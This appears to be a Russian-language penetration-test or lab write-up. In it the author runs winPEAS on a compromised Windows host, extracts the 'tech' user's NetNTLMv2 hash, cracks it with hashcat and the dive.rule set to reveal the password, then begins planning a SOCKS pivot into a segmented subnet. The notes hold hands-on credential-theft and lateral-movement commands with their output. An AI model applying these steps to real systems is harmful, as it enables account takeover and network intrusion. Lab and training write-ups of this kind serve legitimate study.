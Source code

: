 # Ищем способы повысить привилегии

Я скачал бинарь winpeas на сервер и запустил

```
shell winp.exe | findstr "tech"
shell winp.exe | findstr "hash"
```

tech - это пользователь под которым мы получили сессию. Я хочу в первую очередь узнать пароль.

![[Pasted image 20241118210401.png]]

А вот и наш хэшик

```
tech::WS13:1122334455667788:eefd57e652e5f956b24f1a5a0f8b05e3:010100000000000090bb170d273adb01416cb70cf9aa7543000000000800300030000000000000000000000000200000ecda55660d8867989bac2c2531cdd4353d475969d9a099b3b4fb715929b33ecf0a00100000000000000000000000000000000000090000000000000000000000
```

```
hashcat -m 5600 hash.txt word.txt -r /usr/share/hashcat/rules/dive.rule --show
TECH::WS13:1122334455667788:eefd57e652e5f956b24f1a5a0f8b05e3:010100000000000090bb170d273adb01416cb70cf9aa7543000000000800300030000000000000000000000000200000ecda55660d8867989bac2c2531cdd4353d475969d9a099b3b4fb715929b33ecf0a00100000000000000000000000000000000000090000000000000000000000:ZxCvBnM!23
```

Я использовал правила для hashcat - **dive.rule**. Таким образом пароль для учетки tech - **ZxCvBnM!23**

# Строим туннель

для начало узнаем какие у нас есть сетевые интерфейсы.

![[Pasted image 20241118211503.png]]

И того подводим итог. У нас есть линукс тачка (наша) - 10.0.0.90
У нас есть 10.113.0.10 и 112.113.0.10, которые могут пинговать, видеть 10.0.0.90. Но когда я попытался пингануть эти два сетевых интерфейса, то ничего не вышло. Эта сетка тупо не сканится. 

```
Пример сегментации:

- Администраторы сети могут разрешить доступ:
    - К определённым устройствам (например, `10.113.0.1`).
    - К определённым портам (например, SSH на `10.113.0.1:22`).
    - К приложениям или службам (например, доступ к веб-серверу на `10.113.0.3:80`).
- Остальные IP-адреса или порты в подсети могут быть заблокированы.
```

![[Pasted image 20241118232536.png]]

ssh работает, но вот только мы не можем достучаться до нужных хостов. Значит создадим сокс, чтобы можно было стучать к примеру в 112.113.0.10. Как я понял у нас есть общий сервер 10.113.0.10. Общий в моем понимании  - это что он может обращаться хоть к хссту 112.*, хоть к моей машинке линукс. То есть некий посредник через которого мы будем отсылать пакеты.
